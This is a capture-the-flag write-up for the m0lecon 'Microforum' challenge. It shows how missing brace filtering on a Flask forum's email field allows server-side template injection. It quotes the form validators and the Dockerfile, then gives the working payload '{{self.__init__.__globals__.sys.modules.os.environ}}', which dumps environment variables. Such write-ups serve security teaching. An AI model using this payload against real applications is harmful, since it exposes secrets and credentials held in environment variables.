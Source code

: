 # Microforum
## Challenge
You're telling me you can't break such a simple [forum](https://microforum.m0lecon.fans/)?

The forum is broken down to 2 things
1. posts
2. profile

## Enumeration 

after looking around in source and testing different places for vulnerabilities we found out that posts aren't vulnerable, but the profile page is.

when looking around in the source code we found these forms

```python
class RegistrationForm(FlaskForm):

	username = StringField('Username', validators=[DataRequired()])

	email = StringField('Email', validators=[DataRequired(), Email()])

	password = PasswordField('Password', validators=[DataRequired()])

	password2 = PasswordField('Repeat Password', validators=[DataRequired(), 
	EqualTo('password')])

	submit = SubmitField('Register')

  

	def validate_username(self, username):

		for c in "}{":

			if c in username.data:

				raise ValidationError('Please use valid characters.')

			user = User.query.filter_by(username=username.data).first()

			if user is not None:

				 raise ValidationError('Please use a different username.')

  

	def validate_email(self, email):

		user = User.query.filter_by(email=email.data).first()

		if user is not None:

			raise ValidationError('Please use a different email address.')

  
  

class EditProfileForm(FlaskForm):

	username = StringField('Username', validators=[DataRequired()])

	about_me = TextAreaField('About me', validators=[Length(min=0, max=1000)])

	submit = SubmitField('Submit')

  

	def __init__(self, original_username, *args, **kwargs):

		super(EditProfileForm, self).__init__(*args, **kwargs)

		self.original_username = original_username

  

	def validate_username(self, username):

		for c in "}{":

			if c in username.data:

				abort(400)

				#raise ValidationError('Please use valid characters.')

		if username.data != self.original_username:

			user = User.query.filter_by(username=self.username.data).first()

			if user is not None:

				abort(409)

				#raise ValidationError('Please use a different username.')

  

	def validate_about_me(self, about_me):

		for c in "}{":

			if c in about_me.data:

				abort(400)

```

We can see that the forms are checking for brackets in username and about me, but never in the email, that means the email might be vulnerable for some SSTI (server side template injection)

When checking for a SSTI we do something like this `{{1+1}}` to see how the server handles that request, and when implementing it to the users email it will look something like this

![test of SSTI](Pasted image 20220514210238.png)

When logging in and checking if it works on our profile we find this

![Results](Pasted image 20220514210324.png)

Okay, so now we know that there is SSTI on this page, but how do we get flag?

## Exploit

We can see in the source again that in the dockerfile we have declared flag as an environment variable, but isn't called anywhere else

```Dockerfile
# syntax=docker/dockerfile:1

FROM python:latest

ENV FLASK_APP=main.py

COPY --chown=root:root . ./microforum

WORKDIR ./microforum

RUN useradd -ms /bin/bash app

RUN chown -R app db/

RUN pip3 install -r requirements.txt

EXPOSE 8080

USER app

ENV FLAG='ptm{REDACTED}'

CMD ["python", "main.py", "--host=0.0.0.0"]
```

The docker is running python which means we can do some code execution through this SSTI, by using the classic `self.__init__.__globals__` path in our SSTI we can find all global variables, and we can see that `sys` is a variable that we have access too.

Through sys we can access variables and load `modules` which with lists us all modules that has been imported and can find the OS module, from there we can load the environmental variables via `os.environ` 

Making our exploit look like this
```
{{self.__init__.__globals__.sys.modules.os.environ}}
```

with this we can put it into our email field and exploit the website giving us this output

![result of payload](Pasted image 20220514212413.png)

## Flag
ptm{d1d_u_f1nd_th3_r1ckr0ll?}
